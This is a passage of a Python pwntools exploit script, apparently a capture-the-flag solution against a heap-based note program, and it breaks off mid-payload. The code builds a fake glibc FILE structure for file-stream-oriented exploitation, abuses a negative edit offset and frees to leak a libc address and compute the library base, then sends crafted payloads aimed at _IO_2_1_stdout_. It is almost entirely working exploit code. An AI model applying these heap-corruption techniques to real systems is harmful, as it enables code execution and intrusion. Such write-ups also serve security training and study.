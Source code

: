 ```python
    FSOP += p64(lock) + p64(_offset) + p64(_codecvt) + p64(_wide_data) + p64(_freeres_list) + p64(_freeres_buf)
    FSOP += p64(__pad5) + p32(_mode)
    if _unused2 == b"":
        FSOP += b"\x00"*0x14
    else:
        FSOP += _unused2[0x0:0x14].ljust(0x14, b"\x00")
    
    FSOP += p64(vtable)
    FSOP += more_append
    return FSOP

create_note(0, 0x40, "hi")
create_note(1, 0x410, "hi")

edit(1, -0x78)

free(0)
create_note(0, 0x40, "hi")
free(1)
free(0)

create_note(0, 0xa0, b"A"*0x70)
print_note(0)

p.recvuntil("data: "+"A"*0x70)
arena_addr = u64(p.recvline()[:-1].ljust(8, b"\x00"))

puts_addr = arena_addr - 0x17bf50
libc_base = puts_addr - libc.symbols["puts"]
libc.address = libc_base

log.info("puts_addr : "+hex(puts_addr))
log.info("libc_base : "+hex(libc_base))

p.sendlineafter(">", hex(puts_addr))

p.recvuntil("code")

#1~8
for i in range(8):
    payload = p64(4)
    payload += p64(0)
    payload = payload.ljust(0x40, b"\x00")

    p.send(payload) 
    sleep(0.01)

#9
payload = p64(7)
payload += p64(0)
payload += p64(0xFFFFFFD3)
payload = payload.ljust(0x40, b"\x00")

p.send(payload) 
sleep(0.01)

#10
payload = p64(7)
payload += p64(1)
payload += p64(libc.symbols["_IO_2_1_stdout_"])
payload = payload.ljust(0x40, b"\x00")

```